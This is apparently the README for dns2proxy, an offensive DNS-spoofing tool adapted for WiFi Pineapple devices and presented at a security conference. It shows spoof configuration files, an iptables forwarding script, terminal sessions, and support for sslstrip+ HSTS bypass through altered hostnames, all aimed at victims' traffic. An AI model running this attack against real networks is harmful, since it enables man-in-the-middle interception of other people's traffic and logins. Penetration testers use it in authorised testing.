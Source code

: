 dns2proxy  (Modified by Zylla for WiFi Pineapples)  
=========  

I've only set the config files to be located at /etc/dns2proxy/  
 -Zylla  

---------
  
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>
  
Feature 1  
---------  
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
>root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
>  
>// launch in another terminal dns2proxy.py  
>  
>root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.s21sec.com  
>Address: 1.1.1.1  
>Name:   www.s21sec.com  
>Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
>root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
>.domain.com 192.168.1.1  
>  
>root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   aaaa.domain.com  
>Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
Feature 2  
---------  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
>root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
>Non spoofing imap.gmail.com  
>Non spoofing mail.s21sec.com  
>Non spoofing www.google.com  
>Non spoofing www.apple.com  
>Non spoofing ccgenerals.ms19.gamespy.com  
>Non spoofing master.gamespy.com  
>Non spoofing gpcm.gamespy.com  
>Non spoofing launch.gamespyarcade.com  
>Non spoofing peerchat.gamespy.com  
>Non spoofing gamestats.gamespy.com  
>Specific host spoofing www.s21sec.com with 1.1.1.1  
>Specific domain IP .domain.com with 192.168.1.1  
>binded to UDP port 53.  
>waiting requests.  
>Starting sniffing in (eth0 = 172.16.48.128)....  
>  
>< at other terminal >  
>  
>root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.microsoft.com  
>Address: 172.16.48.128  
>Name:   www.microsoft.com  
>Address: 172.16.48.230  
>Name:   www.microsoft.com  
>Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
Feature 3  
---------  
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
>root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   webaccounts.google.com  
>Address: 172.16.48.128  
>Name:   webaccounts.google.com  
>Address: 172.16.48.230  
>Name:   webaccounts.google.com  
>Address: 74.125.200.84  
>  
>root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
>Server:         127.0.0.1                                                     www.yahoo.com  
>Address:        127.0.0.1#53  
>  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.128  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.230  
>Name:   wwww.yahoo.com  
>Address: 68.142.243.179  
>Name:   wwww.yahoo.com  
>Address: 68.180.206.184  
  
  
Instalation  
-----------  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.


Config files description
------------------------

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
>Ex: 
>.facebook.com 1.2.3.4 
>.fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
>Ex: 
>www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
>Ex. 
>mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
>Ex: 
>127.0.0.1 
>4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
>Ex: 
>23.66.163.36 
>195.12.226.131   

resolv.conf: DNS server to forward the queries.
>Ex:
>nameserver 8.8.8.8

